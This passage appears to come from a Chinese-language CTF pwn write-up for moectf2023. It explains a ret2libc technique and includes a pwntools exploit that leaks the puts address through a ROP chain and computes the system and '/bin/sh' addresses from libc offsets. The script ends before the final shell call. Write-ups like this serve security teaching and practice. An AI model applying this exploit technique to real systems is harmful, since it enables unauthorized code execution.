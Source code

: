 

## ret2libc

该程序中没有system函数和binsh字符串，需要利用libc的延迟绑定机制。

一个确定的libc版本中各个函数的偏移量是固定的，而libc函数的真实地址的后12位是不变的，利用这一个特点可以确定libc版本（每个libc版本的函数偏移量可能是不同的）。

首先我们打印puts的真实地址，并返回main函数再次调用，拿到的puts的真实地址的后12位是ed0，在libc database searcher中搜索可以看到：

![image-20230822232310818](./moectf2023-pwn-wp.assets/image-20230822232310818.png)



根据分别与puts的偏移量确定了system和binsh的地址，最后调用system函数，exp:

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 34315)
pwn = ELF(parent_path + "pwn")

pop_rdi = 0x40117e
puts_plt = pwn.plt['puts']
puts_got = pwn.got['puts']
main = pwn.symbols['main']

# 获得puts的真实地址，并将函数返回到main
pad1 = b'a' * 0x58 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
sh.sendline(pad1)
sleep(3)
# 解包 64位下的真实地址以0x7f开头(而[-6:]指从后取6位，因为一般来说真实地址可能不会有8位，如果取8位可能造成数据错误)
puts_addr = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

# libc中查找偏移量
system_addr = puts_addr - 0x30170
binsh_addr = puts_addr + 0x1577c8
print(hex(puts_addr))
print(hex(system_addr))
```
